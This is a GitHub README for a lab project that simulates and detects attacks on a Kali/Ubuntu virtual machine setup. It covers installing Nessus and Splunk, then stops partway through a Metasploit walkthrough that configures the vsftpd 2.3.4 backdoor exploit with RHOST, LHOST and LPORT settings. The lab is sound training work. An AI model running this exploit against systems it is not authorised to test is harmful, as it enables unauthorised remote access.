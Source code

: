 # Simulating-and-Detecting-A-Cyber-Attack

## Introduction

### Overview

In this digital world, it is critical to detect and analyse cyber threats so that appropriate responsive actions can be taken to mitigate them. This project simulates real-world cyber attacks in a virtual environment. The penetration testing tools used in this project are Metasploit and Burp Suite, while Nessus is used for vulnerability scanning, Wireshark is used for traffic analysis, and Splunk is used for log monitoring. A Kali Linux VM will be used as the attacker's environment while the Ubuntu VM will be used as the target system. With this in mind, various attacks will be conducted to observe and analyse their impact and the steps taken to detect, analyse, and mitigate these attacks will be showcased. 

### Objectives

- Simulate cyber attacks using Metasploit and Burp Suite
- Capture and analyse network traffic using Wireshark
- Utilise Nessus to scan for vulnerabilities in the target system
- Monitor and analyse logs using Splunk
- Implement threat detection and response

## Tools Used 

- Metasploit
- Burp Suite
- Nessus
- Wireshark
- Splunk
- Kali Linux VM (attack machine)
- Ubuntu VM (target machine)

## Project Setup 

### Prerequisites 
- Kali Linux VM - for running Metasploit, Burp Suite, and Nessus
- Ubuntu VM - target system for attacks
- Network - NAT or Bridged Adapter

Use platforms like VMWare or VirtualBox to install and run the virtual machines.

### Installation

#### Kali Linux VM:
1. Install Metasploit:
   - Open Terminal and type the following commands:
     ```
     sudo apt-get update && apt-get upgrade 
     sudo apt install metasploit-framework
     ```
2. Install Burp Suite:
   - Run the following command in Terminal:
     ```
     sudo apt install burpsuite
     ```
3. Install Nessus:
   - Go to the following link: <a href="https://www.tenable.com/products/nessus/nessus-essentials?source=post_page-----3a590489c18e--------------------------------">Tenable Nessus® Essentials</a>
   - Fill in your full name and email under "Register for Activation Code".
   - You will receive an email with the activation code and be redirected to the download page:
     ![image](https://github.com/user-attachments/assets/edbc1d2a-50b9-4ac4-825f-2dedfc7daf32)
   - Select the latest version for Nessus and "Linux-Debian-amd64" for the platform as shown above.
   - You can then download Nessus using the curl command in Terminal:
     ```
     curl --request GET \
       --url 'https://www.tenable.com/downloads/api/v2/pages/nessus/files/Nessus-10.8.3-debian10_amd64.deb' \
       --output 'Nessus-10.8.3-debian10_amd64.deb'
     ```
   - Run the following installation command:

     `sudo dpkg -i Nessus-10.8.3-debian10_amd64.deb`
   - Start Nessus using the following command:

     `sudo systemctl start nessusd`
   - To check if it is running, run the following command:

     `sudo systemctl status nessusd`
   - Open Nessus in the browser using the following link:

     `https://localhost:8834`
   - This will give you a warning. Accept the risk and continue.
   - You will then be directed to the Nessus page:
     ![image](https://github.com/user-attachments/assets/d2491998-c179-4307-80a7-fad4224922cb)
   - Click continue.
   - Select "Register for Nessus Essentials".
   - You can skip the following step and fill in the activation code you received earlier via email.
   - Create a username and password and then click "Submit". This will fully set up Nessus Essentials on the browser:
     ![image](https://github.com/user-attachments/assets/afc6434d-fe0a-4a2c-9dbc-cf36bd51e128)

#### Ubuntu VM:
Install Splunk:
- Go to the following link: <a href="https://www.splunk.com/en_us/download/splunk-enterprise.html">Download Splunk Enterprise</a>
- Create your account.
- Verify your email to activate your Splunk account.
- The verification link will take you to the download page where you must choose a platform to download Splunk.
- Choose Linux as the platform since it is being downloaded on the Ubuntu VM and you can choose the .deb installation package.
- Open Terminal in the Ubuntu VM and paste and run the wget command to download the selected installation package:
  ![image](https://github.com/user-attachments/assets/7e333cc9-6bc7-41f0-8b32-0f57be9e25b3)
- Install Splunk using the command:

  `sudo dpkg -i splunk-9.4.0-6b4ebe426ca6-linux-amd64.deb`
- To check the status of the installation, run the following command:

  `sudo dpkg --status splunk`
- Next, start Splunk using the following command:

  `sudo /opt/splunk/bin/splunk start`
- Accept the license and create an administrator username and password:
  ![image](https://github.com/user-attachments/assets/0db65ea8-7186-4372-a5e1-09f89b6c681f)
- Once you have successfully created a username and password, you will be provided with the Splunk web interface:
  ![image](https://github.com/user-attachments/assets/d26d2b33-d5c5-4d25-8c0c-a74ec02d3c3a)
- Open the link on the web browser in the Ubuntu VM. This will take you to the login page where you will be asked to use the credentials that you created earlier:
  ![image](https://github.com/user-attachments/assets/1df131f9-9885-4e75-8002-ef3b25ca8b4a)


## Simulating an Attack

### Metasploit
- Open Terminal in the Kali VM.
- Type in "msfconsole" to start Metasploit:
  ![image](https://github.com/user-attachments/assets/2054305d-2586-4d41-9d23-52e1c07f23b0)
- Once Metaslpoit is started, type in "help" to see the description of each command that you can use in Metasploit:
  ![image](https://github.com/user-attachments/assets/8d6d3123-027a-4d96-891b-0631140c7d10)
- Since the Ubuntu VM is the target, search for Linux-specific exploits using the command:

  `search vsftpd`
  ![image](https://github.com/user-attachments/assets/a05e396d-0dba-4e12-8491-431ab8132f7e)

- Once you have found the exploit that you are looking for, run the following "use" command:

  `use exploit/unix/ftp/vsftpd_234_backdoor`
- Go to the Terminal in the Ubuntu VM and identify its IP address using the "ifconfig" command. The IP address is under "inet".
- Return to the Terminal in the Kali VM, in the same tab where Metasploit is running.
- Set the target using the Ubuntu VM IP address with the "set" command:

  `set RHOST <UBUNTU-VM-IP>`
- Check compatible payloads using the "show" command:

  `show payloads`
  ![image](https://github.com/user-attachments/assets/ef5ac111-fca3-4688-b1f4-1712096c3e1d)
- Set the payload shown:

  `set payload payload/cmd/unix/interact`
- Set the attacker's IP address and listening port using the Kali VM IP:
  ```
  set LHOST <KALI-VM-IP>
  SET LPORT 4444
  ```










## References
- <a href="https://docs.tenable.com/nessus/Content/InstallNessusLinux.htm">Install Tenable Nessus on Linux</a>
- <a href="https://docs.splunk.com/Documentation/Splunk/9.4.0/Installation/InstallonLinux">Install Splunk on Linux</a>
- <a href="https://medium.com/@dannyopara/installing-splunk-enterprise-on-ubuntu-step-by-step-guide-b545982038c3">Installing Splunk Enterprise on Ubuntu: Step-by-Step Guide</a>
- <a href="https://www.hackthebox.com/blog/metasploit-tutorial">A step-by-step guide to the Metasploit Framework</a>
- <a href="https://www.varonis.com/blog/what-is-metasploit">What is Metasploit? The Beginner's Guide</a>
- <a href="https://www.eccouncil.org/cybersecurity-exchange/penetration-testing/metasploit-framework-for-penetration-testing/">How To Use The Metasploit Framework For Penetration Testing</a>


     






